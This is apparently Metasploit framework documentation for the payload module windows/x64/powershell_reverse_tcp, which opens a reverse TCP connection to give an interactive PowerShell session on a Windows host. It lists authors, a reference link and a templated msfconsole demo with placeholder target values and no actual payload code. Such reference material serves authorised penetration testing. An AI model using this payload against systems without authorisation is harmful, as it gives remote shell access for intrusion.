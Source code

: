 ## Windows Interactive Powershell Session, Reverse TCP

Listen for a connection and spawn an interactive powershell 
session


## Module Name
payload/windows/x64/powershell_reverse_tcp

## Authors
* Ben Turner
* Dave Hardy
* sf


## References
* https://www.nettitude.co.uk/interactive-powershell-session-via-metasploit/




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/powershell_reverse_tcp
msf payload(powershell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(powershell_reverse_tcp) > set TARGET <target-id>
msf payload(powershell_reverse_tcp) > show options
   ... show and set options ...
msf payload(powershell_reverse_tcp) > run
```
    
    